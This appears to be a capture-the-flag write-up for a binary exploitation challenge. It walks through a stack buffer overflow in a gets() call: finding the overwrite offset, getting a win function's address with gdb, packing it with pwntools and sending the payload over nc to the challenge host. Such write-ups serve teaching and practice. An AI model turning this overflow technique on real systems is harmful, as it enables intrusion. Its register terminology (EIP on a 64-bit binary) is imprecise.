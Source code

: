 
### Breaking the program
First we need to find out when the program breaks. We see that the buffer gets() writes into is 40 bytes. We try to write different amount of 'A's to find out exactly when the program breaks.
```
python3 -c "print('A'*60)" | ./pwn2
Enter some text:
Segmentation fault (core dumped)
```
We can see that the program seg-faults when we write 60 bytes. By trying some more we find out that the program seg-fauls at 57 bytes, but not 56. This means that at byte 57 we start overwriting the return address in EIP.

We must know the funciton-address of the win-function we want the program to run. We can use gdb to find the function-address.
We set a breakpoint in the program at the main function, and disassemble the win function.
```
> b main
> run
> disass win
```
> 0x0000000000401314 <+0>:	endbr64
>
> 0x0000000000401318 <+4>:	push   %rbp
>
> 0x0000000000401319 <+5>:	mov    %rsp,%rbp
>
> 0x000000000040131c <+8>:	sub    $0x110,%rsp

We see that the win-function has the address 0x401314, which is the value we want to write into the EIP-register.

We cannot write 401314 directly into the EIP-register, because we need padding (also endian notation). We can use pwntools to do the 64-bit padding and endian notation for use:
```
>>> from pwn import *
>>> p64(0x401314)
b'\x14\x13@\x00\x00\x00\x00\x00'
```
We now have the amount of 'A's to reach the point where we write over the EIP-register, we also have the address to write into that register.
We combine the two together and get the following:

```bash
$ python3 -c "print('A'*56 + '\x14\x13@\x00\x00\x00\x00\x00')" | nc io.ept.gg 30022
```

We get out the flag:
> EPT{congratulations_y0u_win!}

# Misc
## Numbers and letters
> Category: Misc
>
> Composite numbers are no-go, 'cause it's prime time!
